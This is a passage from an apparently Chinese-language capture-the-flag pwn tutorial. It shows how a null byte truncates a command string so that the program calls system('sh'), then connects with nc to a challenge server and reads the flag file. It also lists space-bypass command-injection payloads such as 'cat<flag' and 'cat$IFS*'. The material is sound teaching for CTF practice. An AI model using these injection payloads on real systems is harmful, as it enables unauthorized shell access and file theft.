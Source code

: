 而这个空字符是作为字符串结束的标志，所以程序会认为commad这个字符串到第一个'h'后就结束了  

commad也会变成'sh'  

这样，最后就执行了system('sh')，也就拿到shell了  
![48](https://raw.githubusercontent.com/cooook/Asuri-book/master/pic/48.png)  
可以看到在haoshufu这个程序里出现了控制台标志$，并且可以对输入的指令进行响应  
![49](https://raw.githubusercontent.com/cooook/Asuri-book/master/pic/49.png)  
那咱们连上远端，实战一下  

```
Win + R
cmd
```
开启控制台  

```
nc 106.15.120.40 8009
```


![50](https://raw.githubusercontent.com/cooook/Asuri-book/master/pic/50.png)

```
shsh
```
![51](https://raw.githubusercontent.com/cooook/Asuri-book/master/pic/51.png)

```
ls   查看目录
```

![52](https://raw.githubusercontent.com/cooook/Asuri-book/master/pic/52.png)

```
cat flag   打印flag文件内容
```

![53](https://raw.githubusercontent.com/cooook/Asuri-book/master/pic/53.png)
flag就是`flag{biubiubiubiubiubiubiubiu}`

##### ** 其他解法

有大师傅给了不一样的思路

对于比赛中的pwn题来说，其实我们最终需要的只是flag文件里的字符串，拿到shell可以很方便的读出这个字符串，然而就算不拿shell我们还是有办法将文件泄露出来，比如orw，可以自行百度

对于这题，给了我们控制system函数参数的权利，其实也就相当于给了shell

我们可以直接执行system("cat flag")来读取flag

但是scanf读取到空格就会结束，所以还需要绕过一下

payload：

```
cat<flag
cat$IFS*
od<flag
nl<flag
pg<flag
dd<flag
……
```

原理就不解释了，可以自己查有关这些指令和符号的介绍

最上面两个不易成功，自己想想为什么